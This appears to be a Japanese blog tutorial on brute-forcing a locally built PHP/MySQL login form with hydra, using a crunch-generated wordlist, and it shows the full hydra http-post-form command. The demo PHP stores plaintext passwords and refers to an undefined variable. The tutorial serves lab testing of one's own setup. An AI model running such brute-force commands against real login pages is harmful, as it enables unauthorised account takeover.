 ```yaml
---
title: "hydraを使ってブルートフォース攻撃をする方法"
path: blog/hydraPHP
tags: [Linux, PHP]
cover: ./Security.png
date: 2021-03-07
excerpt: hydraを使ってブルートフォース攻撃をする方法
---
```


## 目的

hydraを使ってローカル環境のログインフォームにブルートフォース攻撃をし、脆弱性を確認する。

## 使用環境

- MAC
- MAMP
- hydra
- Homebrew

## hydraとは

## 手順

1. ### hydraのインストール

    hydraの依存関係をbrewコマンドで確認します。

    ```
    brew info hydra
    ```

    ![](./hydra1.png)

    Requiredを確認すると、「libssh」「mysql-client」「openssh」が必須のようです。
    × マークがついていたらインストールしておきましょう。

    ```
    brew install libssh
    brew install mysql-client
    brew install openssh
    ```

    全てにチェックがついたらhydraをインストールします。
    ![](./hydra2.png)

    ```
    brew install hydra
    ```

2. ### PHPでログインフォームの実装

    UserIDとPASSで認証をする、Basic認証のログインフォームをPHPで実装していきます。<br>
    例として、UserIDは「test」、PASSは「test」でMySqlに登録します。
    IDとPASSが一致すると「ログイン成功です」と表示されます。

    ```html
    <html>
        <head>
            <title>ログイン</title>
        </head>
        <body>
            <form action="login_sql.php" method="POST">
                ID: <input type="text" name="name">
                PASS: <input type="text" name="password">
                <input type="submit" value="login">
            </form>
        </body>
    </html>
    ```

    ```php
    <?php
    session_start();
    header('Content-Type: text/html; charset=UTF-8');
    $name = @$_POST['name'];
    $password = @$_POST['password'];

    try {
        $pdo = new PDO('mysql:dbname=hydra;host=localhost;charset=utf8','root','root');
        echo "接続成功\n";
        $sql = 'SELECT * FROM users WHERE name = :name and password = :password';
        // PDOStatementクラスのインスタンスを生成
        $prepare = $pdo->prepare($sql);
        $prepare->bindValue(':name', $name, PDO::PARAM_STR);
        $prepare->bindValue(':password', $password, PDO::PARAM_STR);
        // プリペアドステートメントを実行する
        $prepare->execute();
        // PDO::FETCH_ASSOCは、対応するカラム名にふられているものと同じキーを付けた 連想配列として取得します。
        $result = $prepare->fetchAll(PDO::FETCH_ASSOC);
    } catch (PDOException $e) {
        echo "接続失敗: " . $e->getMessage() . "\n";
        exit();
    }
    ?>

    <html>
    <body>
        <?php
            if(count($result) > 0){
                $_SESSION['id'] = $id;
                echo 'ログイン成功です';
            } else {
                echo 'ログイン失敗です';
            }
        ?>
    </body>
    </html>
    ```

3. ### hydraでデモ

    hydraで使うパスワードリストをcrunchコマンドで作っていきます。<br>
    デモなので桁数がわかっている体で、4文字の"aaaa"から"zzzz"のパスワードリストを生成しましょう。

    ```
    crunch 4 4 -o password.txt
    ```

    パスワードファイルが作られたら、それを使いhydraでブルートフォース攻撃をしかけます。

    ■hydraの基本構文

    ```
    hydra -l [ユーザ名] -P [パスワード辞書ファイル] [対象サーバ名/対象サーバIPアドレス] [http-get or ssh]
    ```

    今回はPOST通信でlocalhostに向けて攻撃しますので、それに合わせてコマンドを作り実行します。<br>
    詳しいオプションについては[hydra GitHub](https://github.com/vanhauser-thc/thc-hydra)を参考にしてください。

    ```
    hydra -l test -P password.txt 127.0.0.1 http-post-form '/login_sql.php:name=^USER^&password=^PASS^:ログイン失敗です'
    ```

    コマンドを実行するとパスワードリストの全てのパターンを先頭から実行していきます。
    パスワードが一致するとキャプチャのようにパスワードが出力されます。

    ![](./hydra3.png)